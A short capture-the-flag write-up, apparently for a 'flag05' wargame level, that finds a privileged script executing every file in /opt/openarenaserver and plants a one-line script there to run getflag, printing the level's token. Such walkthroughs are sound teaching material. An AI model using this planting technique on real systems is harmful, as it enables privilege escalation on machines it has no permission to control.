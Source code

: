 As previously done, we start by our usual commands:
```
ls -l # Empty
find / -user flag05 2>/dev/null # Checking the file owned by flag05
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

Looks like we found the place where we'll have to search

```
cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done

cat /rofs/usr/sbin/openarenaserver # Permission denied
```
As we can see in the script, every file present in the folder seems to be launched.
So we'll just create a script there.

```
echo '/bin/getflag > /tmp/flag' > /opt/openarenaserver/script.sh
su flag05
Password: [Any Passwd]
su: Authentication failure
cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
